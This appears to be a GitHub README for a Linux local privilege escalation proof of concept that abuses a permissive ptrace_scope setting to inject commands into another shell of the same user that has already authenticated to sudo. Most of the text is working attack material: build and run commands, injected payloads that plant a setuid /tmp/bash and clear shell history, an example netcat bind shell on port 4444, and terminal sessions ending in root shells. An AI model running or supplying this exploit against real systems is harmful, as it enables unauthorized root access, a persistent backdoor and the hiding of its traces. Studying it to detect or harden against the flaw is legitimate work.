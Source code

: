 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

WARNING! this is a POC, the code is CRAP

video demo on youtube: https://youtu.be/3Qmy1Y8W7A8

Injecting code via ptrace (with same user) in shells with sudo authenticated

Exploit Reqs:
* ptrace enable to attach the processes of the user
* terminal with a sudo user group (attacker)
* terminal with the same user & sudo authenticated (victim)
* run xpk or ptrex 

WARNING: if GDB is installed in the machine is more safe run https://www.exploit-db.com/exploits/46989

'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

my code is based in the s4vitar & vowkin POC and use ptrace (no GDB dep).

I made two POC-flavours for the same thing xpk.c & ptrex.c

## xpk.c
stdin hijack (using ptrace_do lib https://github.com/emptymonkey/ptrace_do): sudo -S cp /bin/bash /tmp + sudo -S chmod +s /tmp/bash + history -c 
```
gcc -o xpk xpk.c
./xpk
```

WARNING: only works for x86_64 systems (ptrace_do limitation)

* can inject code from x86_64-xpk-compiled to x86_64 process
* can inject code from x86_64-xpk-compiled to x86 process

## ptrex.c:
shellcode injection (using ptrace) execve(python -c import os; os.system("echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1")); 
```
gcc -o ptrex ptrex.c
 ./ptrex 
```

You can also inject your own python code: 

./ptrex full_python_path newcmdline

Example with 
* own python binary (limit 150 bytes): /home/dreg/tmp/python
* bind bash shell python code (limit 250 bytes) : import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")
```
./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'
```

* works for x86_64 systems & x86 systems
* can inject code from x86_64-ptrex-compiled to x86_64 process
* can inject code from x86-ptrex-compiled to x86 process
* can inject code from x86_64-ptrex-compiled to x86 process

WARNING: inject code from x86-ptrex-compiled to x86_x64 process is not possible

## How to test xpk.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```

## How to test ptrex.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o ptrex ptrex.c
dreg@fr33project:~$ ./ptrex
ptrex v0.3-beta - MIT License - Copyright 2020
David Reguera Garcia aka Dreg - dreg@fr33project.org
http://github.com/David-Reguera-Garcia-Dreg/ - http://www.fr33project.org/
-
ptrace misconfiguration Local Privilege Escalation
using ptrace (no GDB dep) execve
-
Based from: https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

To change default python path & cmd injected: ./ptrex full_python_path newcmdline
    example: ./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'

/proc/sys/kernel/yama/ptrace_scope : 0
pgrep "^(echo $(cat /etc/shells | tr '/' ' ' | awk 'NF{print $NF}' | tr '\n' '|'))$" -u "$(id -u)" | sed '$ d'
current pid: 18888
skipping current shell pid: 18888
current pid: 20156
elf plat: 64
waiting for process
getting registers
injecting shellcode at: 0x00007f33a88890e9
setting instruction pointer to: 0x00007f33a88890e9
runing
please wait...
found suid shell: /tmp/bash
rooting.....
/tmp/bash -p -c 'rm /tmp/bash ; tput cnorm && /bin/bash -p'

bash-5.0# whoami
root
bash-5.0#
```
## WORKING ON:

* Parrot Home/Workstation: 4.6 
* Parrot Security: 4.6 
*	CentOS / RedHat: 7.6 
*	Kali Linux: 2018.4 
* Debian GNU/Linux: 10 (buster)

## CONTRIBUTORS

nobody loves me

## TODO

*  Research why GDB call system("") is more stable and safe. ptrex needs the "python -c" thing for a safe execve injection **in a bash shell** (in other processes I can inject any execve(cmd) without problems, no idea why this happens).

